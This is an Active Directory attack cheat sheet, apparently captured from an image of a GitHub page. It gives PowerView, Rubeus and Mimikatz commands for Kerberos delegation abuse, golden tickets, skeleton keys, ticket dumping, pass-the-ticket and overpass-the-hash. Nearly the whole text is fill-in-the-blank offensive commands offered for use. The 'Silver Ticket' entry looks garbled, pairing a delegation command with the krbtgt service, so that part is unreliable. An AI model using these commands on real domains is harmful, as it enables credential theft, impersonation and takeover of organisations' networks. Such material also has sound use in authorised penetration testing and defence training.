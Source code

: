 #### Abusing Kerberos Delegation
- **Constrained Delegation (PowerView)**:
  ```powershell
  Get-DomainUser -TrustedToAuth
  Set-DomainObject -Identity "<computer_account>" -Set @{msDS-AllowedToDelegateTo="HOST/<target_service>"}
  ```
- **S4U2Self Attack (Rubeus)**:
  ```powershell
  Rubeus.exe s4u /user:<username> /rc4:<hash> /impersonateuser:<target_user> /msdsspn:<target_service>
  ```

#### Golden Ticket Attack
- **Mimikatz**:
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
  ```

#### Silver Ticket Attack
- **Mimikatz**:
  ```powershell
  tgt::deleg /domain:<domain> /sid:<SID> /target:<target_server> /rc4:<NTLM_hash> /user:<username> /service:krbtgt
  ```

#### Skeleton Key Attack
- **Mimikatz**:
  ```powershell
  privilege::debug
  misc::skeleton
  ```

## Credential Harvesting

#### Extracting Kerberos Tickets
- **Rubeus**:
  ```powershell
  Rubeus.exe dump
  ```

#### Pass-the-Ticket (PtT) Attack
- **Mimikatz**:
  ```powershell
  kerberos::ptt <ticket.kirbi>
  ```

## Lateral Movement

#### Overpass-the-Hash (Pass-the-Key)
- **Mimikatz**:
  ```powershell
  sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<NTLM_hash> /rc4:<NTLM_hash> /run:cmd.exe
  ```
